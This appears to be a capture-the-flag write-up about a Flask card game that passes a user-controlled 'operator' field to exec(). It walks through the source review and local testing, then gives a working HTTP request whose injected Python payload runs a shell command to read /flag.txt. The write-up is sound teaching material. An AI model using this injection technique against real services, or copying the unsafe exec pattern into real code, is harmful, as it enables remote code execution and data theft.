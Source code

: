 ```yaml
---
title: "Web Evaluation Check"
summary: "Remote Code Execution vulnerability by unsafe usage of exec function"
date: 2022-11-06T19:25:08+01:00
---
```


{{< attachements folder="files" pattern=".*\.zip$" >}}

# Web evaluation deck


# Information Gathering

## The application at-a-glance 🔍

Application is a card game that allows users to flip 8 cards.

![Untitled](images/Untitled.png)

If HP bar is depleted game is won.

![Untitled](images/Untitled%201.png)

At first glance there is no visible bug or vulnerability.

## Source code review

All of the source code was too big to upload here so only flask source code is stored, without images and other static files.

Only interesting file is `routes.py` as this file store all the logic used by application.

```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

First interesting thing is that this application uses `compile` and `exec` function.

Lets analyze the given source code.

```python
    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
```

This piece of code parse `POST` body and get `current_health` , `attack_power` and `operator` parameters.

Next step is checking if all three variables are set this is the same as checking if all three parameters are passed in request.

```python
if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400
```

This part is most interesting because of use `exec` function. 

```python
 result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

But before `exec` function call, user input is directly passed to `compile` function and then to `exec` and `current_health` and `attack_power` are casted to `int` . `result` variable are returned to the user in response.

# The Vulnerability

As there is no sanitization of user input there is possible RCE (Remote Code Execution) via `exec` function!

## Testing

As I’m not familliar with `compile()/exec()` function I copied relevant part of code to new python script for testing.

```python
current_health = '12'
operator = "+"
attack_power = '100'
result = {}

try:
    code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
    exec(code, result)
    print(result.get('result'))
except:
    print('Something Went Wrong!')
```

After executing this script number `112` shows up.

![Untitled](images/Untitled%202.png)

`exec` function is capable of executing python code. User controls all three parameters but only `operator` is passed directly to `compile` rest parameters are converted to `int`

One modyfication for testing script is required, because in this state when something is wrong application pring `Something Went Wrong!` to get full traceback `try\execpt` block can be removed.

`operator` variable is set to `print(1)` if everything go well it should print `1`

```python
current_health = '12'
operator = "print(1)"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))
```

After executing script returns `SyntaxError: Invalid Syntax` and result is equal to `result = 12 print(1) 100` so 12 is `current_health` and 100 is `attack_power` 

![Untitled](images/Untitled%203.png)

Python can be run `inline` and next instruction are separated with semicolon `;` 

```python
current_health = '12'
operator = ";print(1);"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))
```

Executing this version yield expected results, script prints additional `1` in terminal window.

![Untitled](images/Untitled%204.png)

# Exploitation

With `Remote Code Execution` now we can read the flag.

```python
POST /api/get_health HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 114
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
	"current_health":"43",
	"attack_power":"33",
	"operator":";result = __import__('os').popen('cat /flag.txt').read();"
} 
```

After sending this malicious request to the server application returns with flag.

![Untitled](images/Untitled%205.png)

## Payload explanation

```
"operator":";result = __import__('os').popen('cat /flag.txt').read();"
```

- semicolons are here for valid python code exectution - without `;` signs interpreter throws `invalid syntax` error
- `result =` this overwrites variable that is returned in response to the user
- `__import__` is function called by regular `import` statement this allows to import modules directly so `__import__('os')` means the same as `import os` but can be done inline and can call function directly by referencing them as “objects”
- `popen('cat /flag.txt')` this function spawns shell process and executes command `cat /flag.txt`
- `read()` reads output of a process from `popen`
